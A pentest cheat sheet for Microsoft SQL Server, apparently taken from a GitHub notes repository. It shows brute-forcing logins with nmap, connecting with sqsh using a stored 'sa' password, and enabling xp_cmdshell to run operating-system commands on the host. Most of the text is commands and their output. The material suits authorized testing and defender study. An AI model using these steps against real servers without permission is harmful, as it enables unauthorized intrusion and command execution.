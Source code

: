 # MSSQL

## Broute Force

### <a href='https://nmap.org/nsedoc/scripts/ms-sql-brute.html' target="blank">File ms-sql-brute</a>

``` bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>
```

## Connection

### Add server

``` bash
$ cat /etc/freetds/freetds.conf
<snip>
[Pentest]
        host = <ip>
        port = 1433
```

### Stored password

``` bash
$ cat ~/.sqshrc
\set username=sa
\set password=PASSWORD
\set style=vert
$ sqsh -S Pentest
1>
```

### Normal Connection

``` bash
$ sqsh -S mssql -U sa
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1> \set style=vert
1>
```

## Execute commands

### Advanced Option

``` bash
1> EXEC sp_configure 'show advanced option';
2> go
name:         show advanced options
minimum:      0
maximum:      1
config_value: 0
run_value:    0
 
(return status = 0)
```

### Config xp_cmdshell

``` bash
1> EXEC sp_configure 'show advanced option', '1';
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE WITH OVERRIDE;
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE;
2> go
=== Recheck ===
1> EXEC sp_configure 'show advanced option';
2> go
name:         show advanced options
minimum:      0
maximum:      1
config_value: 1
run_value:    1
 
(return status = 0)
------
```

### Execute commands

``` bash
1> xp_cmdshell 'whoami';
2> go
output: nt service\mssql$sqlexpress

output: NULL

(2 rows affected, return status = 0)
```